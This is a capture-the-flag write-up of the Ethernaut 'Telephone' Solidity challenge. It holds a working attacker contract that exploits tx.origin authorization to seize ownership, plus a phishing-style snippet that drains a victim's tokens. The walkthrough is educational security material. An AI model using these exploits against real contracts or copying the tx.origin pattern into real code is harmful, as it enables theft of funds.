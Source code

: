 # Telephone 📞

Fourth Challenge description is as follows:

Claim ownership of the contract below to complete this level.
Things that might help

- See the Help page above, section "Beyond the console"

Code:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Resolution

The goal of this challenge is to claim ownership of the contract, and we can see there's a method called `changeOwner`.

Now this method, has a particular condition: If the `tx.origin` is different from the `msg.sender` we can set a new owner.
Here's a difference between `tx.origin` and `msg.sender`:

_The tx. origin global variable refers to the **original external account that started the transaction** while msg. sender refers to the **immediate account (it could be external or another contract account)** that invokes the function._

So to claim ownership we need to create a transaction that executes the function `changeOwner` from a different sender. There's probably many ways to do this, but we could do it through a contract account.
We could deploy a `AttackTelephone` contract that calls the `changeOwner` from the `AttackTelephone` address and sets a new owner !

Here's a contract that does that!
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

contract AttackTelephone {
    
    address private telephoneAddress = {ETHERNAUT_TELEPHONE_CONTRACT_ADDRESS};
    address private sender = {YOUR_WALLET_ADDRESS};

    function changeOwnerOfTelephone() public {

        // Make an external call to the telephone contract address with abi.encodeWithSignature and pass the defined sender address as parameter:
        // In this case the tx.origin will be sender and msg.sender will be this contract address
         (bool success, ) = telephoneAddress.call(abi.encodeWithSignature("changeOwner(address)", sender));

         require(success, "Telephone fail or returned false!");
                  
    }
}
```

Once you successfully execute the `changeOwnerOfTelephone()` function, you can check the ownership via:
```
await contract.owner()
```
And that's it! You can submit your instance! 💥 


### Ethernaut Insights

_While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/)._

_An example of a possible attack is outlined below._

_Use tx.origin to determine whose tokens to transfer, e.g._
```
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```
_Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g._
```
function () payable {
  token.transfer(attackerAddress, 10000);
}
```
_In this scenario, tx.origin will be the victim's address (while msg.sender will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker._
## License

[MIT](https://choosealicense.com/licenses/mit/)